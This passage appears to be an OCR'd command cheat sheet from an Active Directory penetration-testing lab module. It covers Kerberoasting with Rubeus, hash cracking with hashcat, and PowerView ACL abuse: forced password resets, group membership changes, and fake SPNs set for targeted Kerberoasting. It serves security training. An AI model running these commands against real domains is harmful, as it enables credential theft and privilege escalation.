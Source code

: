 | `.\Rubeus.exe kerberoast /user:testspn /nowrap`              | Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host. |

| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host. |

| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host . |

  
  
  

# ACL Enumeration & Tactics

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Find-InterestingDomainAcl`                                  | PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. |

| `Import-Module .\PowerView.ps1  $sid = Convert-NameToSid wley` | Used to import PowerView and retrieve the `SID` of a specific user account (`wley`) from a Windows-based host. |

| `Get-DomainObjectACL -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | Used to find all Windows domain objects that the user has rights over by mapping the user's `SID` to the `SecurityIdentifier` property from a Windows-based host. |

| `$guid= "00299570-246d-11d0-a768-00aa006e0529"   Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * \| Select Name,DisplayName,DistinguishedName,rightsGuid \| ?{$_.rightsGuid -eq $guid} \| fl` | Used to perform a reverse search & map to a `GUID` value from a Windows-based host. |

| `Get-DomainObjectACL -ResolveGUIDs -Identity * \| ? {$_.SecurityIdentifier -eq $sid} ` | Used to discover a domain object's ACL by performing a search based on GUID's (`-ResolveGUIDs`) from a Windows-based host. |

| `Get-ADUser -Filter * \| Select-Object -ExpandProperty SamAccountName > ad_users.txt` | Used to discover a group of user accounts in a target Windows domain and add the output to a text file (`ad_users.txt`) from a Windows-based host. |

| `foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" \| Select-Object Path -ExpandProperty Access \| Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}` | A `foreach loop` used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(`ad_users.txt`) to the `Get-ADUser` cmdlet, then enumerates access rights of those users. Performed from a Windows-based host. |

| `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) ` | Used to create a `PSCredential Object` from a Windows-based host. |

| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` | Used to create a `SecureString Object` from a Windows-based host. |

| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` | PowerView tool used to change the password of a specifc user (`damundsen`) on a target Windows domain from a Windows-based host. |

| `Get-ADGroup -Identity "Help Desk Level 1" -Properties * \| Select -ExpandProperty Members` | PowerView tool used view the members of a target security group (`Help Desk Level 1`) from a Windows-based host. |

| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to add a specifc user (`damundsen`) to a specific security group (`Help Desk Level 1`) in a target Windows domain from a Windows-based host. |

| `Get-DomainGroupMember -Identity "Help Desk Level 1" \| Select MemberName` | PowerView tool used to view the members of a specific security group (`Help Desk Level 1`) and output only the username of each member (`Select MemberName`) of the group from a Windows-based host. |

| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` | PowerView tool used create a fake `Service Principal Name` given a sepecift user (`adunn`) from a Windows-based host. |

| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose` | PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host. |

| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to remove a specific user (`damundsent`) from a specific security group (`Help Desk Level 1`) from a Windows-based host. |
